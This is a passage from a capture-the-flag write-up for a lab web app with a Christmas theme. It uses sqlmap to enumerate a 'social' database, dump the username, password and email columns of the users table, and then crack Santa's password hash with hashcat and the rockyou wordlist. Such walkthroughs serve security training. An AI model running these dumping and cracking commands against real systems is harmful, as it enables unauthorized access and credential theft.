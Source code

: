```console
[*] social
[*] sys
```
find out what XXXXX is and you will be fine
## What is Santa Claus' email address?
before doing this task, I would like you to log in to the web app and try out. try to understand what this web app is for and how to it work. 


from the last task, we know that there is 6 databases. the web app is like a social media app so I pick to try to find out what is in side ```social``` database
```console
kali@kali:~$ sqlmap -r day23/login.txt -D social --tables --batch # --tables == get table -D is DBMS database to enumerate
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
```
users table looks **juicy**, let get all columns
```console
kali@kali:~/day23$ sqlmap -r login.txt -D social -T users --columms --batch
[12 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| id           | int(11)      |
| password     | varchar(255) |
| email        | varchar(100) |
| first_name   | varchar(25)  |
| friend_array | text         |
| last_name    | varchar(25)  |
| num_likes    | int(11)      |
| num_posts    | int(11)      |
| profile_pic  | varchar(255) |
| signup_date  | date         |
| user_closed  | varchar(3)   |
| username     | varchar(100) |
+--------------+--------------+
```
On the web app when you search for a user in search bar, you can either search for name or username, I already know that Santa's username is ```santa_claus```. Moreover, we need to get his password for next task so lets **dump both password and username**
```console
sqlmap -r login.txt -D social -T users -C username,password,email --batch --dump --threads 3 # -C DBMS database table column(s) to enumerate -dump dump the data --threads is threads to incresse speed (not recomended irl)
```
## What is Santa Claus' plaintext password?
Get the password and use some [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) to find out what hash algorithms is used. let go **hashcat**!!!
```console
kali@kali:~/day23$ hashcat -m 0 -a 0 -o santacrack.txt "putthehashhere" /usr/share/wordlists/rockyou.txt --force
kali@kali:~/day23$ cat santacrack.txt
```